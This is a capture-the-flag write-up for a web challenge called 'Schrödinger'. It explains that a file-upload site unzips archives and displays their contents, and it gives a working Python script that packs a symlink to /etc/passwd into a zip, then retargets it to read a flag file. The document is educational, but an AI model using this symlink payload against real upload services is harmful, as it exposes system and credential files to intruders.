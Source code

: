 # Web

##  Schrödinger 


### Info

![](screenshots/1.png)
![](screenshots/2.png)

## solution:

this One was a lil easy to solve because i saw this vulnerabilty before so it's website with file-upload function:

we can try to upload php shell or whatever bur it doesnt work because the website  `unzip zip files and show the output of files`

it's just using this [script](https://github.com/stark0de/zip-symlink-payload-creator) to create a file named for exemple `evil_symlink` that have a symbolic link to the `/etc/passwd` file and zip it 
```python
import zipfile

def compress_file(filename):
    zipInfo = zipfile.ZipInfo(".")
    zipInfo.create_system = 3
    zipInfo.external_attr = 2716663808
    zipInfo.filename = filename
    
    with zipfile.ZipFile('payload.zip', 'w') as zipf:
        zipf.writestr(zipInfo, "/etc/passwd")

filename = 'evil_symlink'

compress_file(filename)
```

when we pass the zip file  to the server , this server doesnt check if the file inside the zip is symLinked to another file so it unzip it and show the content of the`/etc/passwd` :
![](screenshots/3.png)

no we have the user name so just changing the script above to reading this `"/home/copenhagen/flag.txt"`
and we upload the zip file and we git the flag:
![](screenshots/4.png)





